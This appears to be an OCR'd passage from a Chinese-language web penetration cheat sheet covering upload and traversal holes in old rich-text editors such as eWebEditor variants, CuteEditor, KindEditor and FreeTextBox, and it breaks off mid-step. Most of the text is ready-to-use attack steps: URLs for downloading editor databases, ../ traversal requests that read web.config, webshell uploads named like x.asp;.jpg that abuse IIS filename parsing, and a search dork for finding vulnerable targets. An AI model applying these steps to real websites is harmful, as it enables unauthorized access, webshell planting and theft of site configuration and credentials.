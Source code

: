 	成功以后查看源代码找到uploadsave查看上传保存地址，默认传到uploadfile这个文件夹里。
 #### southidceditor(一般使用v2.8.0版eWeb核心)
	http://www.xxxx.com/admin/southidceditor/datas/southidceditor.mdb
	http://www.xxxx.com/admin/southidceditor/admin/admin_login.asp
	http://www.xxxx.com/admin/southidceditor/popup.asp
	bigcneditor(eWeb 2.7.5 VIP核心)
	其实所谓的Bigcneditor就是eWebEditor 2.7.5的VIP用户版.之所以无法访问admin_login.asp，提示“权限不够”4字真言，估计就是因为其授权“Licensed”问题,或许只允许被授权的机器访问后台才对。或许上面	针对eWebEditor v2.8以下低版本的小动作可以用到这上面来.貌似没多少动作Cute Editor
 #### Cute Editor在线编辑器本地包含漏洞
	影响版本:
	CuteEditor For Net 6.4
	脆弱描述：
	可以随意查看网站文件内容，危害较大。
	攻击利用:
	http://www.xxxx.com/CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config
	Cute Editor Asp.Net版利用iis解析漏洞获得权限
	影响版本：
	CuteEditor for ASP.NET中文版脆弱描述：
	脆弱描述：
	CuteEditor对上传文件名未重命名，导致其可利用IIS文件名解析Bug获得webshell权限。
	攻击利用：
	可通过在搜索引擎中键入关键字 inurl:Post.aspx?SmallClassID= 来找到测试目标。
	在编辑器中点击“多媒体插入”，上传一个名为“xxx.asp;.avi”的网马，以此获得权限。
 #### Webhtmleditor
	利用WIN 2003 IIS文件名称解析漏洞获得SHELL
	影响版本：<= Webhtmleditor最终版1.7 (已停止更新)
	脆弱描述/攻击利用：
	对上传的图片或其他文件无重命名操作，导致允许恶意用户上传diy.asp;.jpg来绕过对后缀名审查的限制，对于此类因编辑器作者意识犯下的错误，就算遭遇缩略图，文件头检测，也可使用图片木马 插入一句话来突破。
 #### Kindeditor
	利用WIN 2003 IIS文件名称解析漏洞获得SHELL
	影响版本: <= kindeditor 3.2.1(09年8月份发布的最新版)
	脆弱描述/攻击利用：
	拿官方做个演示：进入http://www.xxxx.com/ke/examples/index.html 随意点击一个demo后点图片上传，某君上传了如下文件：http://www.xxxx.com/ke/attached/test.asp;.jpg
	Note:参见附录C原理解析。
 #### Freetextbox
	Freetextbox遍历目录漏洞
	影响版本：未知
	脆弱描述：
	因为ftb.imagegallery.aspx代码中 只过滤了/但是没有过滤\符号所以导致出现了遍历目录的问题。
	攻击利用:
	在编辑器页面点图片会弹出一个框（抓包得到此地址）构造如下，可遍历目录。
	http://www.xxxx.com/Member/images/ftb/HelperScripts/ftb.imagegallery.aspx?frame=1&rif=..&cif=\..
	Freetextbox Asp.Net版利用IIS解析漏洞获得权限
	影响版本：所有版本
	脆弱描述：
	没做登陆验证可以直接访问上传木马
	Freetextbox 3-3-1 可以直接上传任意格式的文件
	Freetextbox 1.6.3 及其他版本可以上传 格式为x.asp;.jpg
	攻击利用：
	利用IIS解析漏洞拿SHELL。上传后SHELL的路径为http://www.xxxx.com/images/x.asp;.jpg
 #### Msn editor
	利用WIN 2003 IIS文件名称解析漏洞获得SHELL
	影响版本：未知
	脆弱描述：
	点击图片上传后会出现上传页面，地址为
	http://www.xxxx.com/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=
	用普通的图片上传后，地址为
	http://www.xxxx.com/news/uppic/41513102009204012_1.gif
	记住这时候的路径，再点击图片的上传，这时候地址就变成了
